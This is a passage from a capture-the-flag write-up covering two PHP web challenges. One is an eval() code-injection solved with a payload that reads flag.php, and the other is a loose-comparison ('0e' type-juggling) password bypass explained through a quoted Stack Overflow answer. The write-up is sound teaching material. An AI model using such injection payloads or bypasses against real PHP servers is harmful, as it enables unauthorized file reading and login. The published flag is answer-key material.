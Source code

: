 ```php
}

eval("?>" . $input);

echo "\n";

?>

<html>
    <head>
        <title>Faleval</title>
    </head>
    <body>
        <h1>Faleval</h1>
        <p>To view the source code, <a href="/?source">click here.</a>
    </body>
</html>

Faleval

To view the source code, click here.
```

### Solution

**Payload:** `?input=<?=file_get_contents('flag.php');`

Flag: `ENO{YummY_YummY_Falafel_Expl01tz}`

## Bassy

### ![chall-sc](https://hackmd.io/_uploads/B1cS0_W0p.png)

Theory: https://stackoverflow.com/questions/12598407/why-does-php-convert-a-string-with-the-letter-e-into-a-number

> Other answers have already mentioned this, but the PHP manual has explicitly stated it now. PHP interprets any string containing an 'E' bounded by numbers as scientific notation (EXPONENT*DNUM: (\{LNUM} \{DNUM}) [eE][+-]?\{LNUM}). As you can see, this interpretation is case-insensitive (E or e). Where this becomes a `gotcha` in weak type string comparisons var_dump("2E1" == "020"); // true 2E1 is really 2 * (10 ^ 1), and that works out to 20. Insert any other letter there and it will return the expected false. From the question "608E-4234" == "272E-3063" That works out to 608 \_ (10 ^ -4234) == 272 \* (10 ^ -3063) Neither number can be represented by PHP (as JvdBerg noted), so they are converted to 0

### ![chall-sc](https://hackmd.io/_uploads/SJ83Ci8R6.png)

Based on the given source code, we are asked to input a password for the admin account. The parameters are as follows:

1. The input that we need to pass will be encoded with Base85.
2. The encoded result will be compared (non-strictly) with the Base85 decoded result of the ADMIN_PW variable.
3. We know that some of the first part of the encoded ADMIN_PW is '0P)s', which corresponds to the value '0e1'.
4. Based on that, we need to find a string that, when encoded with Base85, will have the same value as '0e1' (or '0')."
